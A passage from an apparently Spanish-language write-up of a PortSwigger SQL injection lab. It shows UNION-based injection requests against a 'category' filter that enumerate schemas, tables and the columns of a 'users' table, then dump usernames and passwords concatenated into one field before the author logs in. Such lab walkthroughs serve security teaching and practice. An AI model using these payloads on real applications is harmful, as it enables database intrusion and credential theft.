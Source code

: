 * **Explotación**

Es el mismo caso que el anterior, solo que esta vez en el mismo campo tienen que estar concatenados usuario y contraseña. Vuelvo a listar las bases de datos

```null
GET /filter?category=Gifts'+union+select+NULL,schema_name+from+information_schema.schemata--+- HTTP/2
```

Y las tablas

```null
GET /filter?category=Gifts'+union+select+NULL,table_name+from+information_schema.tables+where+table_schema%3d'public'--+- HTTP/2
```

Con las columnas para ```users```

```null
GET /filter?category=Gifts'+union+select+NULL,column_name+from+information_schema.columns+where+table_schema%3d'public'+and+table_name='users'--+- HTTP/2
```

Dumpeo los valores

```null
GET /filter?category=Gifts'+union+select+NULL,username||':'||password+from+public.users--+- HTTP/2
```

<img src="/img/articulos/sqli-portswigger/28.png" alt="">

Me loggeo y termino el laboratorio

<img src="/img/articulos/sqli-portswigger/29.png" alt="">

